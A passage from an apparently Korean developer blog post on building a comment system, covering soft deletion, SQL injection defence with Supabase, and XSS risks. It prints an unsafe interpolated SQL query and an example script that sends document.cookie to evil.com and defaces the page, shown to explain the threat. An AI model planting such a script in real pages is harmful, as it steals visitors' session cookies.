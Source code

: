 ### 소프트 삭제 vs 하드 삭제

또 다른 중요한 결정은 댓글 삭제 방식이었습니다.

**하드 삭제의 문제점**:

```
김철수: "이 글 정말 좋네요!"
└── 이영희: "저도 그렇게 생각해요!" ← 부모가 삭제되면 이것도 사라짐
```

**소프트 삭제 선택 이유**:

- 답글 구조 보존으로 대화 맥락 유지
- 실수로 삭제한 댓글 복구 가능
- 통계 및 분석 데이터 보존

```sql
-- 소프트 삭제 구현
UPDATE comments
SET author = NULL, content = NULL
WHERE id = ? AND email = ?;
```

결과적으로 삭제된 댓글은 "삭제된 댓글입니다"로 표시되지만 답글들은 그대로 유지됩니다.

## 🔒 네 번째 고민: 보안, 생각보다 복잡했다

단순한 댓글 기능이라고 생각했는데, 보안 관점에서 고려할 것들이 생각보다 많았습니다.

### SQL 인젝션 방어

다행히 Supabase를 사용하면서 이 부분은 자동으로 해결되었습니다:

```typescript
// 이런 위험한 직접 쿼리 대신
const query = `SELECT * FROM comments WHERE slug = '${slug}'`; // 위험!

// Supabase 클라이언트 사용
const { data } = await supabase.from("comments").select("*").eq("slug", slug); // 안전한 parameterized query
```

### XSS (Cross-Site Scripting) 방어

하지만 사용자 입력 데이터는 직접 처리해야 했습니다. 악의적인 사용자가 이런 내용을 댓글로 작성할 수 있습니다:

```html
<script>
  // 사용자의 쿠키를 훔치거나
  document.location = "http://evil.com?cookie=" + document.cookie;

  // 페이지를 변조하거나
  document.body.innerHTML = "<h1>해킹당했습니다!</h1>";
</script>
```
